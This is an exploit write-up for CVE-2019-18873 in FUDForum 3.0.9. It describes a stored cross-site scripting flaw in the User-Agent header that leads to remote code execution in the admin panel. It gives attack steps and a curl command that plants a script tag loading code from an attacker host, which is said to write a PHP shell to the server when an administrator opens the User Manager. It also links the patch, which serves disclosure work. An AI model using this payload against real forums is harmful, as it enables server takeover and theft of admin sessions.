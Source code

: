 # FUDForum 3.0.9 - Stored XSS / Remote Code Execution [Admin Panel]

- Date                  : 10/26/19
- Exploit Author        : liquidsky (JMcPeters)
- Vulnerable Software   : FUDForum 3.0.9
- Version               : 3.0.9
- Software Link         : https://sourceforge.net/projects/fudforum/
- Tested On             : Windows / mysql / apache
- Author Site           : http://incidentsecurity.com | demo: https://youtu.be/0gsJQ82TXw4
- CVE                   : CVE-2019-18873
- Patch / Fix           : https://sourceforge.net/p/fudforum/code/6321/

Greetz : wetw0rk, Fr13ndz, offsec

Description: FUDForum 3.0.9 is vulnerable to Stored XSS via the User-Agent HTTP header. This may result in remote code execution. An attacker can use a user account to fully compromise the system via a GET request. When the admin visits user information under "User Manager" in the control panel, the payload will execute. This will allow for PHP files to be written to the web root, and for code to execute on the remote server. The problem is in admsession.php and admuser.php.

Notes: 

1. Register an account and log in to the forum. If you have an IP already associated with a registered user this is not required.
   This step is so when you run the XSS payload from your attacker machine it gets logged under the user activity.

2. Send the XSS payload below (from an IP associated with an account) / host the script:

- curl -A '<script src="http://attacker.machine/fud.js"></script>' http://target.machine/fudforum/index.php

3. When the admin visits the user information from the admin controls / User Manager the payload will fire under "Recent sessions", uploading a php shell on the remote system.
